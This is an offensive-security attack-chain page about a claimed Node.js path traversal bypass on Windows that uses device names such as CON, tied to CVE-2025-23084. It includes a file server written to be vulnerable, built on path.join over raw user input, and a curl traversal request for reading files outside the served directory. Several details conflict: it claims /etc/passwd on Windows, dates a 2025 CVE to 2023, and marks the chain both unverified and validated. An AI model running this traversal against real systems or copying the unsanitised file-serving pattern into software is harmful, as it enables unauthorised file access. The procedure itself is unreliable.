

---
tags:
  - path-traversal
  - node.js
  - windows
  - cve-2025-23084
type: attack_chain
tools: []
tactics:
  - '[[Discovery]]'
verified: false
platforms:
  - Windows
submitted: true
complexity: medium
created_at: '2023-10-01T00:00:00Z'
procedures:
  - '[[procedures/Exploit-Node.js-Path-Traversal-via-Windows-Device-Names]]'
step_count: 2
techniques:
  - '[[File and Directory Discovery]]'
updated_at: '2025-12-14T17:26:21.836Z'
description: >-
  Demonstrates exploitation of an incomplete fix for CVE-2025-23084 in Node.js,
  bypassing path traversal protections on Windows via special device names like
  CON, PRN, and AUX in the path.normalize() function when using path.join().
skill_level: intermediate
impact_level: high
id: 8845d459-8131-48f1-bf0b-4af0e92596da
validated: true
mitre_tactics:
  - '[[Discovery]]'
mitre_techniques:
  - '[[File and Directory Discovery]]'
---
# Node.js Path Traversal Bypass Using Windows Device Names (CON, PRN, AUX)

Multi-stage attack chain demonstrating exploitation of path traversal protections in Node.js on Windows systems via special device names.

## Chain Metrics Dashboard

| Metric | Value |
|--------|-------|
| Chain Status | Unverified |
| Total Steps | 2 |
| Execution Time | ~5 minutes |
| Skill Level | Intermediate |
| Complexity | Medium |
| Impact Level | High |

## Attack Flow Visualization



## Prerequisites & Requirements

### Required Tools

- Node.js (vulnerable version with incomplete CVE-2025-23084 fix)

### Target Environment

- Windows OS
- Node.js runtime
- Application using path.join() without additional sanitization

### Initial Access Requirements

- Access to run Node.js code or interact with a vulnerable Node.js server
- Local or remote execution privileges

## Detailed Attack Procedures

### Step 1: Setup Vulnerable Node.js Application

procedure: [[procedures/Setup-Vulnerable-Node.js-Path-Join-App]]

**Objective**: Create or identify a Node.js application that uses path.join() relying on path.normalize() for path handling, vulnerable to bypass via Windows device names.

**Instructions**: Install Node.js on a Windows system and create a simple server script that serves files based on user input paths. For demonstration, use the following Node.js code to set up a basic file server:

```javascript
// server.js
const path = require('path');
const fs = require('fs');
const http = require('http');

const server = http.createServer((req, res) => {
  if (req.url.startsWith('/file?path=')) {
    const userPath = req.url.split('path=')[1];
    const filePath = path.join('intended_dir', userPath);
    fs.readFile(filePath, (err, data) => {
      if (err) {
        res.writeHead(404);
        res.end('File not found');
      } else {
        res.writeHead(200);
        res.end(data);
      }
    });
  } else {
    res.writeHead(200);
    res.end('Welcome');
  }
});

server.listen(3000, () => {
  console.log('Server running on port 3000');
});
```

Run the server using [[commands/node-run-server]]:

```bash
node server.js
```

**Expected Output**: Server starts and listens on port 3000.

**Success Indicators**:
- Server logs show 'Server running on port 3000'
- Application responds to basic requests

### Step 2: Exploit Path Traversal

procedure: [[procedures/Exploit-Node.js-Path-Traversal-via-Windows-Device-Names]]

**Objective**: Craft and send a malicious path using Windows device names to bypass normalization and access files outside the intended directory.

**Instructions**: Use a tool like curl to request a file path that includes a device name like 'CON' followed by traversal sequences. For example, request '../etc/passwd' but bypassed via 'CON\..\\..\\etc\\passwd'. Execute [[commands/curl-path-traversal-test]] against the running server:

```bash
curl "http://localhost:3000/file?path=CON\..\\..\\etc\\passwd"
```

**Expected Output**: The server returns the contents of unauthorized files like etc/passwd instead of blocking the traversal.

**Success Indicators**:
- Unauthorized file contents are retrieved
- No 404 error; successful file read

## Attack Chain Summary

### Key Achievements

1. Bypassed path.normalize() protections using Windows device names
2. Achieved directory traversal to access sensitive files
3. Demonstrated high-severity impact (CVSS 7.5) on Node.js applications

## Technique & Tactic Coverage

### MITRE ATT&CK Techniques

- [[File and Directory Discovery]]

### MITRE ATT&CK Tactics

- [[Discovery]]

---

*Last updated: 2023-10-01T00:00:00Z*
